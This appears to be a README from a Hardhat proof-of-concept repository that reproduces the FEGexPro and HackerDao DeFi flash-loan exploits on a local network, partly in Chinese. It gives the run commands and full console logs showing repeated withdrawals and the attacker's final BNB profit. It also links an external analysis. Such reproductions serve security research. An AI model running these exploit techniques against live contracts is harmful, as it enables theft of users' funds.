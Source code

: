 # Basic Sample Hardhat Project

This project demonstrates a basic Hardhat use case. It comes with a sample contract, a test for that contract, a sample script that deploys that contract, and an example of a task implementation, which simply lists the available accounts.

Try running some of the following tasks:

```shell
npx hardhat accounts
npx hardhat compile
npx hardhat clean
npx hardhat test
npx hardhat node
node scripts/sample-script.js
npx hardhat help
```

## 运行

### 模拟运行fegexpro的攻击

> 命令

```
npx hardhat run --network hardhat scripts/hackerdao-script.js
```

> 结果

```
➜  DefiAttackPocBox git:(main) ✗ npx hardhat run --network hardhat scripts/fegexpro-attack.js 
exploit deployed to: 0x243CD2aBE3896f8Fd11AA375CEe04EA685c8fCB8
start flashLoan: wbnb amount 0 bnb amount 0
Now I have WBNB num # 915842289447124857298
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
FEGexPro_address FEG_PRO_FBNB_amount:1051370338227328031779
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
debug # 1 amt of FBNB 115650737205006083495
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 20204367594460596827 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
finsh:BNB amount 1026477953416890657908
```

### 模拟hackerdao的攻击

> 过程分析

- [https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html](https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html)

> 命令
```
npx hardhat run --network hardhat scripts/hackerdao-script.js
```
> 结果

```
➜  DefiAttackPocBox git:(main) npx hardhat run --network hardhat scripts/hackerdao-script.js
exploit deployed to: 0x5B06224F736a57635B5BCb50B8EF178B189107cB
owner address 0xf39fd6e51aad88f6f4ce6ab8827279cfffb92266 contract address 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Now I have flash loaned WBNB num # 2500000000000000000000
after swap Now my WBNB num # 505082833655151138304
now I have 7029656601027818642253 HackerDao
Before swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 505082833655151138304
After swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 2675137850557090857986
now I have 7582486742903822384 HackerDao
path call 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Finally I have 175208335819332962719 BNB
```